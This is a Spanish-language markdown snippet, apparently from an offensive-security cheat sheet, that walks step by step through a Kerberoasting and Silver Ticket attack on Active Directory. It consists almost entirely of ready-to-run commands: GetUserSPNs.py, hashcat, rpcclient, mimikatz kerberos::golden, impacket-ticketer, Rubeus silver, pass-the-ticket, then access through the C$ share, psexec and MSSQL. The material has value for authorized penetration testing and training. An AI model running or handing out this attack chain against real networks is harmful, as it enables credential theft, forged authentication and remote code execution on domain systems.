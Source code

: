 
## 💻 Ejemplo práctico ofensivo (paso a paso)

```bash
# 1. Enumerar SPNs para Kerberoasting
GetUserSPNs.py -request -dc-ip 10.10.10.100 domain.com/user:password

# 2. Crackear hash TGS obtenido
hashcat -m 13100 service_ticket.hash rockyou.txt

# 3. Obtener Domain SID
rpcclient -U "domain.com/user%password" 10.10.10.100 -c "lsaquery"

# 4. Crear Silver Ticket para CIFS con mimikatz
kerberos::golden /user:Administrator /domain:domain.com /sid:S-1-5-21-1234567890-987654321-1122334455 /target:server.domain.com /service:CIFS /rc4:a9b30e5b0dc865eadcea9411e4ade72d /ticket:silver_cifs.kirbi

# 5. Crear Silver Ticket para HTTP con mimikatz
kerberos::golden /user:Administrator /domain:domain.com /sid:S-1-5-21-1234567890-987654321-1122334455 /target:webapp.domain.com /service:HTTP /rc4:a9b30e5b0dc865eadcea9411e4ade72d /ticket:silver_http.kirbi

# 6. Silver Ticket con Impacket ticketer.py
impacket-ticketer -nthash a9b30e5b0dc865eadcea9411e4ade72d -domain-sid S-1-5-21-1234567890-987654321-1122334455 -domain domain.com -spn CIFS/server.domain.com Administrator

# 7. Inyectar ticket CIFS en memoria
kerberos::ptt silver_cifs.kirbi

# 8. Acceder a archivos con ticket inyectado
dir \\server.domain.com\C$

# 9. Silver Ticket para cuenta de máquina (formato especial)
kerberos::golden /user:Administrator /domain:domain.com /sid:S-1-5-21-1234567890-987654321-1122334455 /target:server.domain.com /service:HOST /rc4:machine_account_hash /ticket:silver_host.kirbi

# 10. Usar ticket para PSExec
impacket-psexec -k -no-pass domain.com/Administrator@server.domain.com

# 11. Silver Ticket para MSSQL
impacket-ticketer -nthash service_hash -domain-sid S-1-5-21-1234567890-987654321-1122334455 -domain domain.com -spn MSSQL/db.domain.com Administrator

# 12. Acceso a SQL Server con ticket
export KRB5CCNAME=Administrator.ccache
impacket-mssqlclient -k -no-pass domain.com/Administrator@db.domain.com

# 13. Silver Ticket con Rubeus
.\Rubeus.exe silver /service:CIFS/server.domain.com /rc4:a9b30e5b0dc865eadcea9411e4ade72d /sid:S-1-5-21-1234567890-987654321-1122334455 /ldap /user:Administrator /domain:domain.com /ptt
```

---